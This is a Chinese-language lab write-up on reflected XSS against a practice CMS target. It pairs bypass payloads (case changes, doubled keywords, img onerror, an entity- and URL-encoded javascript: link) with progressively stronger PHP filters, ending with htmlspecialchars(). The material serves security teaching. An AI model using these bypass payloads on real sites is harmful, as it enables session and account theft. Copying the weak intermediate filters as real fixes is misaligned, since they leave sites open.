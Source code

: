 ## 实验说明

> 实验环境

- Windows Server 2022
- CMS靶场(文章管理系统)

> 实验目标

逐步修改代码调整靶场环境的难度，通过对代码的变形完成注入；



## 相关知识

### XSS 跨站脚本攻击

> XSS原理

XSS 通过将js代码注入到网页中，并由浏览器解释运行这段JS 代码，以达到恶意攻击的效果。

当用户访问被XSS 脚 本注入过的网页，XSS 脚本就会被提取出来，用户浏览器就会解析执行这段代码，也就是说用户被攻击了。

整个XSS 攻击过程，涉及三个角色： 服务器 、 攻击者 、客户端浏览器用户（前端）

>  XSS 漏洞危害

1. 盗取各种用户账号；
2. 窃取用户Cookie 资料，冒充用户身份进入网站；
3. 劫持用户会话执行任意操作；
4. 刷流量，执行弹窗广告； 
5. 传播蠕虫病毒；
6. ...

> XSS 防御策略

- 输入过滤：1.对用户提交数据进行验证，指定长度、指定合法字符、指定范围、指定格式；
- 输出编码：使用htmlspecialchars()函数让数据失去标签作用；
- 防御DOM：避免客户端文档重写、重定向或其他敏感操作；



## 实验过程

由于实验过程较为简单，而图片却非常繁多，这里采用文字片段来展示攻防变化；

> 攻击1.反射型xss注入

```html
<script>alert(/xss/)</script>
```

> 防御1. 过滤\<script>标签 ,替换为空

```php
$keyword = str_replace("<script>", "", $keyword);
```

---

> 攻击2.大小写转换

```html
<scRipt>alert(/xss/)</scRipt>
```

> 防御2.正则匹配-忽略大小写差异 

```php
$keyword = preg_replace("/<script>/i", "", $keyword);
```

---

> 攻击3.关键字双写，绕过一次过滤

```html
<scr<script>ipt>alert(/xss/)</script>
```

> 防御3. 正则匹配，禁止所有script格式

```php
$keyword = preg_replace("/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i", "", $keyword);
```

---

> 攻击4.使用\<img>标签,onerror报错执行

```html
<img src=# onerror=alert(/xss/);>
<img src="" onerror=alert(/xss/);>
```

> 防御4. 正则匹配所有on

```php
$keyword = preg_replace("/on/i", "o_n", $keyword);
```

---

> 攻击5.使用\<a>标签

```html
<a href = '&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:alert(/xss/)
'>click me!</a> 
#由于防御3禁止所有script格式，所以要编码； 又由于&符号在url中为连接，所以需要再次转码 URL code，最终输入如下：
%3Ca%20href%20%3D%20'%26%23x6a%3B%26%23x61%3B%26%23x76%3B%26%23x61%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%3Aalert(%2Fxss%2F)%0A'%3Eclick%20me!%3C%2Fa%3E%20
```

> 防御5.  让数据失去定义标签的作用 ，只作为纯字符
>
> htmlspecialchars( )函数将特殊字符转换为HTML实体,以防止恶意用户输入的代码被执行而造成安全漏洞

```php
$keyword = htmlspecialchars( $keyword);
```





